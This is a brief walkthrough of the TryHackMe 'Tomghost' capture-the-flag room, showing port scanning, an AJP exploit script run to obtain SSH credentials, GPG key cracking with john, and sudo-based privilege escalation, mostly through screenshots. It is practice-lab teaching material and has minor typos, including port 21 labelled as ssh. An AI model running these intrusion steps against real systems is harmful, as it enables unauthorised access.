 ```yaml
---
title: Tomghost WalkThrough
permalink: /CTF/tomghost
layout: page
tags: TryHackMe
---
```

# TomGhost
![front](/images/tomghost/front.png)
[https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)

## Open Ports:
 ![open_ports](/images/tomghost/ports.png)
 - 22: ssh
 - 53: domain
 - 8009: ajp13
 - 8080: http-proxy

## Gainaing Access:
 ```bash
 searchsploit ajp
 ```
 ![sploit](/images/tomghost/sploit.png)
	
 ```python
  python 48134.py <ip>
 ```
 ![python_sp](/images/tomghost/python_sp.png)
 * Found **Username** & **Password**

## Port 21[ssh]:
 a. User: `skyfuck`

 b. Passwd: `87302………salks`

### User Flag:
 ![usflag](/images/tomghost/usrflag.png)

## Priviledge Escalation:
 1. import files form /home/skyfuck to your **pc**
  Now craking the files:
  ```bash
  Gpg2john tryhacme.acs > outfile
  John outfile --format=gpg --wordlist=rockyou.txt
  ```
  ![john](/images/tomghost/john.png)
 2. Go to Vulneralble machine:
  ```bash
  Gpg --import tryhackme.asc
  Gpg --decrypt credential.pgp
  ```
  ![gpg](/images/tomghost/gpg.png)
 3. `sudo` `-l`
  ![sudo](/images/tomghost/sudo.png)
 4. Exploiting via **_zip_**
  ![zip](/images/tomghost/zip.png)

### Root Flag:
 ![root](/images/tomghost/root.png)
